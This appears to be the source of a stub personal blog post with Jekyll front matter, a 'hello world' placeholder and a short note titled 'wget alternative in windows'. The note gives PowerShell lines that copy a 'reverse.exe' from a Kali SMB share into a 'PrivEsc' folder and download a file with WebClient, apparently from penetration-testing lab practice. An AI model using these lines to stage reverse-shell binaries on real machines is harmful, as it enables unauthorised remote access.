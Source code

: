 ```yaml
---
title: Writing a New Post
author:
  name: Wraithdemon
  link: https://github.com/prabhatjoshi321
date: 2021-12-08 14:10:00 +0800
categories: [Blogging, Tutorial]
tags: [writing]    # TAG names should always be lowercase
---
```



# This is a first blog post
```

hello world


```


####  wget alternative in windows
```ps1
	copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe

	$client = new-object System.Net.WebClient
	$client.DownloadFile("http://www.xyz.net/file.txt","C:\tmp\file.txt")

```

